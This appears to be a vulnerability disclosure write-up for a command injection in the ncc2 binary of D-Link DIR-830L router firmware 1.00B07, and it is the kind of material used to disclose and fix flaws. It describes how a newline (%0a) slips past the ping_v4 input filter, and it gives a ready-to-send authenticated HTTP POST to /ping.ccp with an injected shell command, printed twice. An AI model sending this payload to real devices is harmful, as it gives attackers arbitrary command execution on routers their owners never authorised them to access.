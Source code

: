# Summary
There is a command injection vulnerability in `ncc2` binary file of D-Link DIR830LA1_FW100B07, which can lead to arbitrary command execution.

Fimware download link : https://legacyfiles.us.dlink.com/DIR-830L/REVA/FIRMWARE/DIR-830L_REVA_FIRMWARE_1.00B07.ZIP

Affected component is `ping_v4`, which is `sub_4A4594` decompiled by IDA.

# Details
The same as `cancelPing`, `ping_v4` is also called in `callback_ccp_ping`:
![image](https://github.com/user-attachments/assets/9aef38f1-9a11-423e-91dd-e950a0cd7ce1)

Audit function `sub_4A4594`, parameter `ip_addr` is from front-end and is user controllable:
![image](https://github.com/user-attachments/assets/e775fa35-2171-43b7-b3dc-8848b48e36ef)

It will eventually be spliced into the parameters of `_system` function:
![image](https://github.com/user-attachments/assets/f4413d63-1d56-4d11-9d06-000c64044f58)

Although `ip_addr` is filtered previously, 
- \`
- \'
- \\
- ;

we can bypass it by using `%0a`:
```
ip_addr=127.0.0.1%0als />/www/poc1.html
```

Inadequate filter of parameter `ip_addr` leads to command injection vulnerability.

PoC:
(**Login** first to get your cookie)
```html
POST /ping.ccp HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://192.168.0.1/info/Login.html

Connection: close

Cookie: uid=SN5icKpv49

Upgrade-Insecure-Requests: 1

If-Modified-Since: Fri, 07 Nov 2014 06:35:31 GMT

Content-Type: application/x-www-form-urlencoded

Content-Length: 58



ccp_act=ping_v4&&ping_addr=127.0.0.1%0als />/www/poc1.html
```
![image](https://github.com/user-attachments/assets/3fa2a205-1585-4ab0-93b9-da477fd665c1)

After sending payload, visit `/poc1.html` to see the result of command execution:
![image](https://github.com/user-attachments/assets/00fdadc8-36df-43ca-993b-25d547fe7e39)


# PoC
(**Login** first to get your cookie)
```html
POST /ping.ccp HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://192.168.0.1/info/Login.html

Connection: close

Cookie: uid=SN5icKpv49

Upgrade-Insecure-Requests: 1

If-Modified-Since: Fri, 07 Nov 2014 06:35:31 GMT

Content-Type: application/x-www-form-urlencoded

Content-Length: 58



ccp_act=ping_v4&&ping_addr=127.0.0.1%0als />/www/poc1.html
```
![image](https://github.com/user-attachments/assets/3fa2a205-1585-4ab0-93b9-da477fd665c1)

![image](https://github.com/user-attachments/assets/00fdadc8-36df-43ca-993b-25d547fe7e39)
